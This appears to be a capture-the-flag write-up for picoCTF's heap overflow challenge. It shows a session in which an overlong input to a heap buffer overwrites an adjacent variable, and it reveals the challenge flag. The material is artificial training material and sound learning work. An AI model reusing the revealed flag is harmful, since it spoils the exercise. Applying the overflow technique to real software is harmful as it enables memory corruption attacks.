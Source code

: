 
## Objetivo
#### Description

Are overflows just a stack concern?Download the binary [here](https://artifacts.picoctf.net/c_tethys/28/chall).Download the source [here](https://artifacts.picoctf.net/c_tethys/28/chall.c).

Additional details will be available after launching your challenge instance.
## Solución
```
Enter your choice: 2
Data for buffer: kjasdfklanlfnalfandflandlfknalkklandflkanfldanlfnañflkdnalknflakndflkanfklanñfklnañdklfnalknflakndflñkanfñklanfklñnañlkdnfaklñndflknafdlknalñndflañnflknakfnañldknfañndfañlndsñ

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 3


Take a look at my variable: safe_var = landflkanfldanlfnañflkdnalknfla3
dflkanfklanñfklnañdklfnalknflakndflñkanfñklanfklñnañlkdnfaklñndflknafdlknalñndflañnflknakfnañldknfañndfañlndsñ


1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_76775c7c}
```
## Notas adicionales

## Referencias
